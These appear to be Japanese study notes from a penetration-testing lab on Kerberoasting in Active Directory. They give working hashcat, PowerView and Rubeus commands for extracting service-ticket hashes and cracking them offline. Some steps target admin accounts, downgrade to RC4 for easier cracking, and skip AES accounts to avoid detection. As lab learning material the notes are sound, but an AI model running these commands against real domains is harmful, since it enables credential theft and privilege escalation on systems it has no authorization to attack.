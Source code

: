  **Hashcat でハッシュをクラックする**
```sh
 $ hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt
```

もし mimikatz # base64 /out:true を使わず、mimikatz # kerberos::list /export を実行していた場合は、チケットは .kirbi ファイルとして そのままディスクに保存される
この場合、ファイルをダウンロードして kirbi2john.py に直接渡すことで、Base64 の整形ステップをスキップできる

### PowerView
PowerViewを使うことで、setspn.exeを使わずにWindowsで自動化して行える

**PowerView を使って SPNアカウントを取得する**
```powershell-session
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Get-DomainUser * -spn | select samaccountname
```

**TGS チケットを抽出する**
特定のユーザーのみ
```powershell-session
PS C:\htb> Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```

全ユーザーに対して
csvに保存する
```powershell-session
PS C:\htb> Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

Hash のカラムが、Hashcat などにそのまま流し込める形式の TGS ハッシュになっている
```powershell-session
PS C:\htb> cat .\ilfreight_tgs.csv
```

### Rubeus
- Kerberoasting をさらにスピーディかつ柔軟に行いたい場合、GhostPack の [Rubeus](https://github.com/GhostPack/Rubeus) を使うのがおすすめ
- Rubeus は Kerberos 関連の攻撃に特化したツールで色々なことができる

Rubeus で可能な Kerberoasting オプション例
- Kerberoasting の実行と、ハッシュのファイル出力
- 別ユーザーの認証情報を使って実行（runas 的な使い方）
- Kerberoasting を Pass-the-Ticket 攻撃と組み合わせて使用
- AES が有効なアカウントを除外して実行（検出回避のための「OPSEC Kerberoasting」）
- パスワードが特定の期間内に変更されたアカウントに対してのみチケットを要求
- チケット要求の件数に上限を設定
- AES 暗号化を使った Kerberoasting の実行

**Kerberoasting 可能なアカウントの探索**
- 同じ権限のアカウントでも、作られたのが古いアカウントの方が、セキュリティ未成熟の時に作ったので、パスワードが弱い可能性がある
```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /stats
```

**管理者権限を持つユーザーに絞ってチケットを取得**
- `/nowrap` はとても重要で、出力される base64 のチケットデータがカラムで折り返されずに1行で表示されるようになる
	- これにより、Hashcat にそのまま渡せる形式でハッシュを取得可能になり、後処理も不要になる
- `admincount=1` : admincount 属性が 1 のユーザー（管理者権限を持つ可能性が高い）に限っている
- RC4暗号化の方が、AES暗号化よりもクラックしやすいので、RC4ハッシュの方を取得する
- Rubeus の `/tgtdeleg` フラグを使うことで、**サービスチケットのリクエスト時に RC4 暗号のみを使用するよう指定**できる。
	- このフラグを指定すると、TGSリクエストのボディ内で「RC4 だけをサポートする」と明示的に宣言する形になる
```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```
